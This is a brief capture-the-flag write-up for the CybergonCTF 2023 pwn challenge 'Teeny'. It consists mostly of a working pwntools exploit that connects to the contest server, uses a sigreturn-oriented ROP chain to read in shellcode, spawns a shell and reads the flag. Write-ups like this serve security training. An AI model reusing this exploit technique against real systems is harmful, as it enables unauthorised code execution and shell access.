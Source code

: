 # Pwn


## Teeny

https://cdn.discordapp.com/attachments/758115188796162088/1142987852574117978/teeny

---

### Solution

```python
from pwn import *
# local
    # elf=context.binary=ELF("./teeny")
    # p=process("./teeny")
context.arch = 'amd64'
context.os = 'linux'

p = remote("cybergon2023.webhop.me", 5004)

flame=SigreturnFrame()
flame.rax=0x0
flame.rdi=0x0
flame.rsi=0x00040017
flame.rdx=0x500
flame.rip=0x00040015
flame.rsp=0x00040100

payload=p64(0)
payload+=p64(0x00040018) # pop rax; ret;
payload+=p64(0xf)
payload+=p64(0x00040015) # syscall
payload+=bytes(flame)

p.sendline(payload)
shellcode=asm(shellcraft.sh())
p.sendline(shellcode)
p.interactive()
```

After we got the shell, use ls and cat the flag file

CybergonCTF{5UD0_R0P_ch41n}